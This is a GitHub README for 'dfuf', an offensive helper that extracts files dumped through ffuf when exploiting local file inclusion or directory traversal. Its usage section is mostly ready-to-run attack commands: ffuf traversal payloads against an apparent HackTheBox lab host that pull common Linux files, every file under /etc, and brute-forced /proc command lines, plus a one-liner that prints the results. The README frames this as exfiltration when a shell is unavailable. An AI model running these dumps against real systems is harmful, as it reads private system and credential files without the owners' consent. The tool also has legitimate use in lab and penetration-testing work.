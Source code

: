 # dfuf - Dump Faster U Fool

## About

> The name of **dfuf** was inspired by **ffuf** (Fuzz Faster U Fool)

### Why dfuf?

This simple script can extract files from **ffuf** request/response dump (`-od` option).

**ffuf** should be faster than any LFI dumpers available on the public.

### Example Scenarios

- When one was stuck at initial foothold, he/she might need to dump files via LFI / Directory Traversal vulnerability for further enumeration.

- When getting shell is impossible, one may perform data exfiltration by dumping files via LFI / Directory Traversal vulnerability.

## Demo

[![asciicast](https://asciinema.org/a/71wYTurJc36uM2oTwp6cOZMtj.svg)](https://asciinema.org/a/71wYTurJc36uM2oTwp6cOZMtj)

## Installation

Make sure [pipx](https://github.com/pypa/pipx?tab=readme-ov-file#install-pipx) is installed.

```bash
pipx install git+https://github.com/opabravo/dfuf
```

## Usage

```bash
usage: dfuf [-h] -o FFUF_JSON_OUTPUT -od FFUF_OUTPUT_DIR dir_to_save_extracted_files

A tool to extract files from ffuf output

https://github.com/opabravo/dfuf

positional arguments:
  dir_to_save_extracted_files
                        Output directory where extracted files will be saved

options:
  -h, --help            show this help message and exit
  -o FFUF_JSON_OUTPUT, --ffuf-json-output FFUF_JSON_OUTPUT
                        Json output file from ffuf
  -od FFUF_OUTPUT_DIR, --ffuf-output-dir FFUF_OUTPUT_DIR
                        Output directory from ffuf

Usage:
    1. Dump files with ffuf
        $ ffuf -c -u 'http://megahosting.htb/news.php?file=../../../../../../FUZZ' -w /usr/share/seclists/Fuzzing/LFI/LFI-gracefulsecurity-linux.txt -fs 0 -od ffuf -o ffuf.json

    2. Extract files from ffuf output
        $ dfuf -o ffuf.json -od ffuf ffuf_dump

Examples:
    1. Common linux files (880 lines) (~8 sec)
        $ ffuf -c -u 'http://megahosting.htb/news.php?file=../../../../../../FUZZ' -w /usr/share/seclists/Fuzzing/LFI/LFI-gracefulsecurity-linux.txt -fs 0 -od ffuf -o ffuf.json
        $ dfuf -o ffuf.json -od ffuf ffuf_dump

    2. Common files under `/etc` (8314 lines) (~1 min)
        $ ffuf -c -u 'http://megahosting.htb/news.php?file=../../../../../../FUZZ' -w '/usr/share/seclists/Fuzzing/LFI/LFI-etc-files-of-all-linux-packages.txt' -fs 0 -od ffuf -o ffuf.json
        $ dfuf -o ffuf.json -od ffuf ffuf_dump

    3. Brute force cmdline in `/proc` (~1 min)
        $ ffuf -c -u 'http://megahosting.htb/news.php?file=../../../../../../FUZZ' -w <(for i in $(seq 10000); echo "/proc/$i/cmdline") -fs 0 -od ffuf -o ffuf.json
        $ dfuf -o ffuf.json -od ffuf ffuf_dump

        View the result in a pretty format :
        $ find ffuf_dump/proc -type f -exec bash -c 'pid=$(echo $0 | cut -d '/' -f3); echo -en "\n$pid | "; cat $0 | tr "\0" " "' {} \; | sort -s -n -k 1,1
```

## License

[MIT](LICENSE)


